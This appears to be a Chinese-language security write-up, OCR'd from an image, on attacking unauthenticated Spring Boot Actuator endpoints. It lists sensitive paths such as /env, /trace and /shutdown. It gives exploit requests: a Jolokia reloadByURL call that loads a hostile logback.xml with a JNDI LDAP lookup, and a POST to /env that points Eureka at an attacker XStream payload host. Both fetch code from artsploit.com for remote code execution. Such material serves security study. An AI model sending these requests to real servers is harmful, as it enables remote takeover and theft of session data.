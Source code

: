 1.  Spring Boot 1-1.4，无需身份验证即可访问以下敏感路径，而在2.x中，存在于/actuator路径下。

```


1.  `/dump-显示线程转储（包括堆栈跟踪）`
2.  `/trace-显示最后几条HTTP消息（其中可能包含会话标识符）`
3.  `/logfile-输出日志文件的内容`
4.  `/shutdown-关闭应用程序`
5.  `/mappings-显示所有MVC控制器映射`
6.  `/env-提供对配置环境的访问`
7.  `/restart-重新启动应用程序`


```

2.  jolokia进行远程代码执行，Jolokia允许通过HTTP访问所有已注册的MBean，并且旨在执行与JMX相同的操作。可以使用URL列出所有可用的MBeans操作：[http://127.0.0.1:8090/jolokia/list](http://127.0.0.1:8090/jolokia/list)

Logback库提供的**reloadByURL**操作使我们可以从外部URL重新加载日志配置，地址如：

```


1.  `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`

3.  `logback.xml：`
4.  `<configuration>`
5.   `<insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi"  as="appName"  />`
6.  `</configuration>`


```

reloadByURL功能从[http://artsploit.com/logback.xml下载新配置，并将其解析为Logback配置。这就导致两个问题：XXE盲攻击、恶意LDAP服务器解析引用导致RCE。](http://artsploit.com/logback.xml%E4%B8%8B%E8%BD%BD%E6%96%B0%E9%85%8D%E7%BD%AE%EF%BC%8C%E5%B9%B6%E5%B0%86%E5%85%B6%E8%A7%A3%E6%9E%90%E4%B8%BALogback%E9%85%8D%E7%BD%AE%E3%80%82%E8%BF%99%E5%B0%B1%E5%AF%BC%E8%87%B4%E4%B8%A4%E4%B8%AA%E9%97%AE%E9%A2%98%EF%BC%9AXXE%E7%9B%B2%E6%94%BB%E5%87%BB%E3%80%81%E6%81%B6%E6%84%8FLDAP%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A7%A3%E6%9E%90%E5%BC%95%E7%94%A8%E5%AF%BC%E8%87%B4RCE%E3%80%82)

3.  通过/env来修改配置

如果Spring Cloud Libraries在类路径中，则**’/ env’**端点允许您修改Spring环境属性。

```


1.  `POST /env HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 65`

6.  `eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream`


```
